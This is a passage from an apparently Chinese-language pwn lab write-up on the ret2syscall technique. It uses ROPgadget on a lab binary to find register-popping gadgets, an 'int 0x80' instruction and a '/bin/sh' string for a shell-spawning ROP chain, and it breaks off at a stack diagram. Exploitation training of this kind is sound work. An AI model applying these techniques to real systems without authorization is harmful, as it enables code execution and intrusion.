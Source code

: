 需要控制的寄存器有：`eax`、`ebx`、`ecx`、`edx` 四个。

用 ROPGadget 查找可用的 Gadgets 。

```plaintext
(.venv) vm :: repos/pwn/lab-4 » ROPgadget --binary bin/ret2syscall --only 'pop|ret' | grep 'eax'
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x080bb196 : pop eax ; ret
0x0807217a : pop eax ; ret 0x80e
0x0804f704 : pop eax ; ret 3
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
```

第一个和第六个都能控制多个寄存器，但都有多余的 `pop` 指令，我们先选第二个 `0x080bb196 : pop eax ; ret` 再搜索控制`ebx`的指令序列。简单起见我就把其他结果略了，下面的结果正好控制了剩余三个寄存器 `ebx`、`ecx`、`edx`。

```plaintext
0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret
```

再寻找一个 `int $0x80` 。

```plaintext
(.venv) vm :: repos/pwn/lab-4 » ROPgadget --binary bin/ret2syscall --only 'int'
Gadgets information
============================================================
0x08049421 : int 0x80
```

然后顺便找一下有没有现成的 `/bin/sh` 或者 `sh` 字符串可以用。

```plaintext
(.venv) vm :: repos/pwn/lab-4 » ROPgadget --binary bin/ret2syscall --string '/bin/sh'
Strings information
============================================================
0x080be408 : /bin/sh
```

我们最终想要得到的栈是这样的：

![image-20220824135729859](image-20220824135729859.png)
